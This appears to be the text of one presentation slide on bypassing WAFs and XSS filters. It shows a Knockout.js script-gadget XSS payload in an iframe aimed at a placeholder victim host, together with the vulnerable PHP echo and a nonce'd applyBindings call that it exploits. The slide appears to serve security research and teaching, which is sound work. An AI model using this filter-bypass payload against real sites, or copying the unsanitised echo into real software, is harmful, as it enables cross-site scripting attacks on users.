

# Bypassing WAFs & XSS filters

 Finding malicious payloads in requests.
 Can detect only specific XSS-related content.

<iframe src="http://victim.example.com/repo/filters/noscript/knockout.php?inj=
    <div data-bind=value:a=location></div>
    <div data-bind=value:a.href=name></div>"
 name="javascript:alert(1)"></iframe>
<?php
  echo $_GET["inj"];
?>
<script nonce="random">
  ko.applyBindings();
</script>
Bypassing NoScript with Knockout gadget
9
Burhan Otour